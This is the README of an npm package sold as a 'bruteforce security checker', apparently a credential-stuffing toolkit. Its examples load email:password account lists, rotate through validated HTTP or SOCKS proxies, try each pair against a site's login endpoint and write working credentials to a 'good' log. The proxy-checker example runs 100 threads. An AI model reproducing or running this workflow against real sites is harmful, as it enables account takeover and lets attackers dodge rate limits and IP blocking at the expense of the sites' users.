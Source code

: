 # bruteforce-security-checker

By this module you can:
1. Test site for bruteforce security by implement HTTP/WS login requests
2. Test site accessibility on mass user signups.


## Table of contents

- [Installation](#installation)
- [Documentation](#documentation)
- [Bruteforce](#bruteforce)
- [Service](#service)
- [ProxyChecker](#proxyChecker)
- [Examples](#examples)
---

## Installation
```npm i @k7eon/bruteforce-security-checker --save```

## Documentation
For methods documentation visit [Doxdox generated docs](https://doxdox.org/k7eon/bruteforce-security-checker)

---------------------------------
# BruteForce
```js
const b = require('@k7eon/bruteforce-security-checker').bruteforce;
// or
const {bruteforce} = require('@k7eon/bruteforce-security-checker');
```

---------------------------------
# Service class
Service is a class with some usefully methods for implement HTTP request

```js
const Service = require('@k7eon/bruteforce-security-checker').Service;
// or
const {Service} = require('@k7eon/bruteforce-security-checker');
```

---------------------------------
# ProxyChecker
Return created class that are ready to check 'http' proxies from files:

usage:
```js
// someFile.js
const proxyChecker = require('@k7eon/bruteforce-security-checker').proxyChecker;
proxyChecker.run(
  'files/proxy.txt',
  'files/valid_proxies.txt',
  'http', // proxy type 'http' or 'socks'
  100,    // threads,
  60000,  // timeout in ms
);
```

---------------------------------
## Examples


---------------------------------
#### Example of *Service* usage
```js
  // MySiteClass.js
  const Service = require('@k7eon/bruteforce-security-checker').Service;

  class MySiteClass extends Service {
    
    /**
    * if login success return cookies or null or throw HTTP layer exception;
    * @param login
    * @param password
    * @param agent      - socks proxy agent
    * @return {Promise<*>}
    */
    async login(login, password, agent=null) {
      let config = {
        method: 'POST',
        url: 'http://mysite.com/login',
        headers: {
          'accept':           'application/json, text/javascript, */*; q=0.01',
          'content-type':     'application/x-www-form-urlencoded; charset=UTF-8',
          'x-requested-with': 'XMLHttpRequest',
        },
        form: {
          'username': login,
          'password': password,
        },
        json: true,
      };
      let {response, body} = await this.r(config, agent);
      
      if (!body.success) return null;
      return this.getSetCookies(response);
    }
  }
  module.exports = new MySiteClass();
```
More about request configs [there](https://github.com/request/request)


---------------------------------
#### Example of *Bruteforce* with *MySiteClass*
```js
// login.js
const fs     = require('fs');
const b      = require('@k7eon/bruteforce-security-checker').bruteforce;
const mySite = require('./MySiteClass');
const FILE = {
  proxies:      'files/proxy_valid.txt',
  registered:   'files/registered.log',
  bad:          'files/bad.log',
  good:         'files/good.log',
  errors:       'files/errors_login.log',
};

b.createFilesIfNotExists(FILE);
b.loadAccounts(FILE.registered); // {email, password}[]
b.removeAccountsBy('email', [FILE.bad, FILE.good]);
b.loadProxyAgents(FILE.proxies);

b.showMetrics({'good':0, 'bad':0, 'errors':0}, 1000);

b.start({
  THREADS:      1,
  whatToQueue:  'accounts',
  useProxy:     true,
  // handlerFunc execute by every account
  handlerFunc: async (task, agent) => {
    /* workflow start */
    let account = task;
    console.log('account', account);
    let {email, password} = account;
    
    try {
      let cookie = await mySite.login(email, password, agent);

      if (!cookie) {
        console.log('bad');
        b.save(FILE.bad, email, 'bad');  
        return {agent};
      }
      
      console.log('good');
      b.save(FILE.good, [email, password].join(':'), 'good');  
      return {agent};
      
    } catch (e) {
      console.log('error', e);
      b.save(FILE.errors, `${JSON.stringify({account, proxy: agent.options.host})}\n${e.stack}\n`, 'errors');
      b.reCheck(account);
      return {agent};
    }
    /* end workflow */
  },
  drainCallback: () => {
    console.log('All accounts are checked');
  }
});
```
- Run ```node login.js```


